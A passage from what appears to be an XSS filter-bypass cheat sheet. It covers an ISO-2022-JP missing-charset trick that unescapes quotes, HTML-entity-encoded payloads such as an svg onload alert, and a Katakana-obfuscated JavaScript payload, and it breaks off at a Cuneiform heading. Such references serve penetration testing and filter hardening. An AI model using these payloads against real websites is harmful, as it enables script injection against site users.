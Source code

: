 ## Bypass using Missing Charset Header

**Requirements**:

- Server header missing `charset`: `Content-Type: text/html`

### ISO-2022-JP

ISO-2022-JP uses escape characters to switch between several character sets.

| Escape    | Encoding        |
|-----------|-----------------|
| `\x1B (B` | ASCII           |
| `\x1B (J` | JIS X 0201 1976 |
| `\x1B $@` | JIS X 0208 1978 |
| `\x1B $B` | JIS X 0208 1983 |

Using the [code table](https://en.wikipedia.org/wiki/JIS_X_0201#Codepage_layout), we can find multiple characters that will be transformed when switching from **ASCII** to **JIS X 0201 1976**.

| Hex  | ASCII | JIS X 0201 1976 |
| ---- | --- | --- |
| 0x5c | `\` | `¥` |
| 0x7e | `~` | `‾` |

**Example**:

Use `%1b(J` to force convert a `\'` (ascii) in to `¥'` (JIS X 0201 1976), unescaping the quote.

Payload: `search=%1b(J&lang=en";alert(1)//`

## Bypass using HTML Encoding

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

## Bypass using Katakana

Using the [aemkei/Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```

## Bypass using Cuneiform
